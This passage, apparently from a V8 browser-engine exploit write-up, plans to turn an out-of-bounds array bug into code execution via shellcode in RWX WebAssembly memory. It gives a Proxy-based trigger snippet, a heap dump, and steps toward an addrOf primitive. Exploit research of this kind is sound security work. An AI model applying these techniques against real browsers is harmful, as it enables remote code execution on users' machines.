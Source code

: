 then we should be able to leak `RWX memory address` and write shellcode to it and then execute it by calling the created wasm function.

To summarize the exploitation plan, we should see if we can leverage the OOB to
1. create `addrOf` primitive
2. create `compressed_read` function which can be done by corrupting `backing_store pointer`.

---

### **addrOf Primitive**

Just one last thing before implementing the `addrOf` primitive, We can create arrays and objects and see those reflected in memory which can be printed out as well (of course be real careful about this).

To try it out, we can add another array containing floating-point numbers.

```js
let p = new Proxy(Object, {
    get: function() {
        a[0] = {};
        oob_Array = [0.1, 0.2, 0.3, 0.4, 0.5];
        float_arr = [0.1, 0.1, 0.1]; // This is the floating array added
  
        return Object.prototype;
    }
});
```
  
We can find that in the heap memory.

```
oob_Array[0] : 0x3fb999999999999a
oob_Array[1] : 0x3fc999999999999a
oob_Array[2] : 0x3fd3333333333333
oob_Array[3] : 0x3fd999999999999a
oob_Array[4] : 0x3fe0000000000000
oob_Array[5] : 0x080406e908241891
oob_Array[6] : 0x8d6f3b6808089be1
oob_Array[7] : 0x00000006482c0a48  <---- length : 6 << 1 == 3
oob_Array[8] : 0x3fb999999999999a  <---- 0.1
oob_Array[9] : 0x3fb999999999999a  <---- 0.1
oob_Array[10] : 0x3fb999999999999a <---- 0.1
oob_Array[11] : 0x080406e908241891
oob_Array[12] : 0x0000000608089c21
```
  
This shows that we can attempt to read and write things (like map address, element address, and values) at offset relative to `oob_Array`.

To implement `addrOf`, we have to recall that array containing floating-point values would store data in 8 bytes while an array containing objects stores data in 4 bytes. With that, we can create an array of an object (containing element hold data structure of fixedArray) and we can corrupt that with the OOB that we have to change the map to that of a FixedDoubleArray which we can get from creating a floating-point array.
